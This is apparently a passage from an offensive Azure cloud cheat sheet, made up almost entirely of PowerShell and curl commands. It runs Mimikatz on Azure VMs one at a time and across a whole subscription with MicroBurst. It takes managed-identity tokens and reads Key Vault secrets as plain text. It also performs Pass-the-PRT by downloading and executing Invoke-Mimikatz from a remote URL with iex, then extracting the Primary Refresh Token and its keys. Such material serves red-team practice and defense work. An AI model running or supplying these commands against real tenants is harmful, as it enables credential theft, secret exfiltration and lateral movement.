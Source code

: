 ```powershell
# List available VMs
PS C:\> Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
ResourceGroupName    Name       
-----------------    ----       
TESTRESOURCES        Remote-Test

# Execute Powershell script on the VM
PS C:\> Invoke-AzureRmVMRunCommand -ResourceGroupName TESTRESOURCES -VMName Remote-Test -CommandId RunPowerShellScript -ScriptPath Mimikatz.ps1
```

Against the whole subscription using MicroBurst.ps1

```powershell
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```


## KeyVault Secrets

```powershell
# keyvault access token
curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&apiversion=2017-09-01" -H secret:$IDENTITY_HEADER
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:$IDENTITY_HEADER

# connect
PS> $token = 'eyJ0..'
PS> $keyvaulttoken = 'eyJ0..'
PS Az> Connect-AzAccount -AccessToken $token -AccountId 2e91a4fea0f2-46ee-8214-fa2ff6aa9abc -KeyVaultAccessToken $keyvaulttoken

# query the vault and the secrets
PS Az> Get-AzKeyVault
PS Az> Get-AzKeyVaultSecret -VaultName ResearchKeyVault
PS Az> Get-AzKeyVaultSecret -VaultName ResearchKeyVault -Name Reader -AsPlainText
```

## Pass The PRT

> MimiKatz (version 2.2.0 and above) can be used to attack (hybrid) Azure AD joined machines for lateral movement attacks via the Primary Refresh Token (PRT) which is used for Azure AD SSO (single sign-on).

```powershell
# Run mimikatz to obtain the PRT
PS> iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
PS> Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'

# Copy the PRT and KeyValue
Mimikatz> privilege::debug
Mimikatz> token::elevate
Mimikatz> dpapi::cloudapkd /keyvalue:<KeyValue> /unprotect

# Copy the Context, ClearKey and DerivedKey
Mimikatz> dpapi::cloudapkd /context:<Context> /derivedkey:<DerivedKey> /Prt:<PRT>
```
